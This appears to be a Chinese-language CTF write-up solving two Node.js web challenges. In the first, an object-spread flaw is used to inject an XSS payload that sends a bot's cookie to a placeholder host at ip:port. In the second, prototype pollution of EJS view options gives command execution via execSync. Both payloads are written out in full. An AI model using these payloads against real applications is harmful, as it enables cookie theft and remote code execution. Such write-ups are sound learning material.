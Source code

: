 # extra-safe-security-layers

弄了一大堆限制。。。都没用

```js
import { xss } from "express-xss-sanitizer";
// Safety layer 1  XSS过滤
app.use(xss());

// Saferty layer 2   黑名单限制
const s = JSON.stringify(req.query).toLowerCase();
for (const b of blacklist) {
    if (s.includes(b.toLowerCase())) {
        return res.status(403).send("You are not allowed to do that.");
    }
}

// Safety layer 3   字符限制
for (const c of s) {
    if (c.charCodeAt(0) > 127 || c.charCodeAt(0) < 32) {
        return res.status(403).send("You are not allowed to do that.");
    }
}

if (req.cookies?.admin === adminCookie) {
    res.user = {
        isAdmin: true,
        text: "Welcome back :)",
        unmodifiable: {
            background: "admin_background.png",
            CSP: `default-src 'self'; img-src 'self'; style-src '${css}'; script-src '${adminJs}' '${commonJs}';`,     // Safety layer 4 CSP限制
        },
    };
} else {
    res.user = {
        text: "Hi! You can modify this text by visiting `?text=Hi`. But I must warn you... you can't have html tags in your text.",
        unmodifiable: {
            background: "background.png",
        },
    };
}

if (req.query.text) {
    res.user = { ...res.user, ...req.query };
}
```

`res.user = { ...res.user, ...req.query };`

省略号是深拷贝对象的每个键值对，前面对`res.user`的限制全被`req.query`给覆盖过去了

访问`/report`会调用bot去访问`/${endpoint}`，`endpoint`要求以`?text=`开头，bot会带上含`flag`

的Cookie，最后通过`ejs`渲染

```js
app.post("/report", limiter, async (req, res) => {
	try {
		if (!req.body.text) {
			console.log("!req.body.text")
			throw new Error("Invalid input.");
		}
		if (typeof req.body.text !== "string") {
			console.log("!string")
			throw new Error("Invalid input.");
		}
		await report(req.body.text);
		return res.json({ success: true });
	} catch (err) {
		return res.status(400).json({ success: false });
	}
});
```

```html
<body id="main">
    <div class="userBox"><%= text ?? '<h1>This shouldn\'t be here...</h1>' %></div>
    <button id="report-button">report as unappropriate</button>
</body>
<script>
    // load background...
    main.innerHTML += `
            <img class='background' src='<%- unmodifiable?.background %>'>
        `;
    console.log('Loaded!');
</script>
```

> ?text=Hi&unmodifiable[CSP]=a&unmodifiable[background]=http://ip:port/test?${document.cookie}

这样拼接出来的js代码如下，模板字符串刚好获取到cookie

```js
main.innerHTML += `
   <img class='background' src='http://ip:port/test?${document.cookie}'>
`;
```

![image-20230607191423275](../.gitbook/assets/image-20230607191423275.png)

# PERFECT PRODUCT

```js
app.all('/product', (req, res) => {
  const params = req.query || {};
  Object.assign(params, req.body || {});

  let name = params.name 
  let strings = params.v;


  if(!(strings instanceof Array) && !Array.isArray(strings)){
    strings = ['NaN', 'NaN', 'NaN', 'NaN', 'NaN'];
  }
  
  // make _0 to point to all strings, copy to prevent reference.
  strings.unshift(Array.from(strings));

  const data = {};
  
  for(const idx in strings){
    data[`_${idx}`] = strings[idx];
  }

  if(typeof name !== 'string'){
    name = `Product: NaN`; 
  }else{
    name = `Product: ${name}`;
  }

  data['productname'] = name;

  data['print'] = !!params.print;


  res.render('product', data);
});
```

`Object.assign`一眼鉴定原型链污染

判断`v`参数是否为数组，`unshift`往数组头部插入新元素

接着生成了类似这样的结构

![image-20230607232957888](../.gitbook/assets/image-20230607232957888.png)

最后把data整个丢进去渲染了。

这题就类似hxp那题Valentines，不过换成了用原型链污染来传入模板自定义配置

但是如果直接设置params.v，不管怎么样后面都会被搞成数组，这时候就要靠原型链污染了

![image-20230608101118380](../.gitbook/assets/image-20230608101118380.png)

发现`idx`包含`__proto__`，把data污染了

渲染的时候，就算对象本身没这属性，也会去其原型中找

（不过这里req.query能直接污染也挺神奇的，把v的原型设为数组）

```js
?v[__proto__][]=0&v[0]=0&v[1]=1&v[2]=2&v[3]=3&v[4]=4&v[_proto__][settings][view%20options][client]=1&v[_proto__][settings][view%20options][escape]={}.constructor.constructor("return+process.mainModule.require('child_process').execSync('calc')")&v[_proto__][cache]=
```

或

```js
?v[__proto__][]=0&v[0]=0&v[1]=1&v[2]=2&v[3]=3&v[4]=4&v[_proto__][settings][view%20options][client]=1&v[_proto__][settings][view%20options][escape]=process.mainModule.require('child_process').execSync('calc');&v[_proto__][cache]=
```

（debug下会有奇怪的错误）

